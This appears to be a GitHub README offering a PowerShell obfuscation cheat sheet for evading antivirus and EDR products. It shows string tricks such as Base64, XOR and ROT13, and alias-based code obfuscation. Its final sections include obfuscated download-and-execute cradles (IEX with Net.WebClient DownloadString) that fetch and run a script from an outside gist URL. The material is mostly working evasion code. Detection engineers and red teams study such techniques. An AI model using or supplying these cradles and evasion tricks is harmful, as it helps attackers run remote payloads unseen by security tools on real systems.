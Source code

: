 <h1 align="center">
Powershell Obfuscation Cheat sheet for AV/EDRs Evasion
</h1>

**Table of Contents**
- [String Obfuscation](#String-Obfuscation)
  * [Alternating caps](#Alternating-caps)
  * [Replace](#Replace)
  * [Reverse-String](#Reverse-String)
  * [RightToLeft](#RightToLeft)
  * [HTMLEncode](#HTMLEncode)
  * [Base64](#Base64)
  * [XOR](#XOR)  
  * [ROT13](#ROT13)
- [Code Obfuscation](#Code-Obfuscation)
  * [Using SessionStateAliasEntry](#SessionStateAliasEntry)


### String-Obfuscation

#### Alternating-caps
```powershell
# Original 
SV("ENVIRONMENTVAR")([Type]("environment")); 

# Example
SV("ENVIRONMENTVAR")([TyPe]("ENVIronMENt")); 
```

#### Replace
```powershell
# Original 
write-host teststring

# Example
write-host (-Join ("te~~st~~str~~ing" -Split "~~"))
```

#### Reverse-String
```powershell
# Original 
write-host teststring

# Example
write-host (-Join "gnirtstset"[10..0]) # 10 is string length
```

#### RightToLeft
```powershell
# Original 
write-host teststring

# Example
write-host (-Join[RegEx]::Matches("gnirtstset",'.','RightToLeft'))
```

#### HTMLEncode
```powershell
# Original 
write-host "test  string"

# Example
write-host ([System.Web.HttpUtility]::HtmlDecode("test&nbsp;&nbsp;string"))
```

#### Base64
```powershell
# Original 
write-host teststring

# Example
write-host [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String("dABlAHMAdABzAHQAcgBpAG4AZwA="))
```

#### XOR
```powershell
# Original 
write-host teststring

# Example
$key = "supersecret";
$ENC = @(7,16,3,17,1,7,23,10,28,2);
$DEC = @();
for ($i = 0; $i -lt $ENC.Count; $i++) {
    $DEC += $ENC[$i] -bxor $key[$i % $key.Length];
} 
write-host ([system.Text.Encoding]::UTF8.getString($DEC));  
```


#### ROT13
```powershell
# Original 
write-host teststring

# Example
$output = "";
"grfgfgevat".ToCharArray() | ForEach-Object {
    if((([int] $_ -ge 97) -and ([int] $_ -le 109)) -or (([int] $_ -ge 65) -and ([int] $_ -le 77)))
    {
        $output += [char] ([int] $_ + 13);
    }
    elseif((([int] $_ -ge 110) -and ([int] $_ -le 122)) -or (([int] $_ -ge 78) -and ([int] $_ -le 90)))
    {
        $output += [char] ([int] $_ - 13);
    }
    else
    {
        $output += $_
    }        
}
write-host $output
```

### Code-Obfuscation

#### SessionStateAliasEntry
you can use Built-In Aliases in powershell you can access the entire list from here 
[src/System.Management.Automation/engine/InitialSessionState.cs#L4586](https://github.com/PowerShell/PowerShell/blob/a99ea2acd2ac4b979974719d514d6c421fdcbdee/src/System.Management.Automation/engine/InitialSessionState.cs#L4586)
```powershell
# the following code will pop up calc
$site='https://gist.githubusercontent.com/WazeHell/c1937b0ca35b0ad4f81523c5efef6750/raw/4c03e65360e338ba4b741a1dd2dea4dc3f370e65/justtest.html';

# Original 
Set-Alias -Name MoreObject -Value new-object
Set-Alias -Name thissmtelse -Value iex
thissmtelse((MoreObject(('Net.Webclient'))).(('Downloadstring')).InVokE((($site))))

# Example
sal MoreObject new-object;
sal thissmtelse iex;
thissmtelse((MoreObject(('Net.Webclient'))).(('Downloadstring')).InVokE((($site))))
```

#### Set-Item AND Get-Item
```powershell
# the following code will pop up calc
$site='https://gist.githubusercontent.com/WazeHell/c1937b0ca35b0ad4f81523c5efef6750/raw/4c03e65360e338ba4b741a1dd2dea4dc3f370e65/justtest.html';

# Original 
IEX((new-object net.webclient).downloadstring($site))

# Example
si('variable:eegw')([string]('new-object'));
si('variable:eeg')([string]('iex'));
sal MoreObject (gv('eegw')).Value;
sal thissmtelse (gv('eeg')).Value;
thissmtelse((MoreObject(('Net.Webclient'))).(('Downloadstring'))."InVokE"((($site))))
```


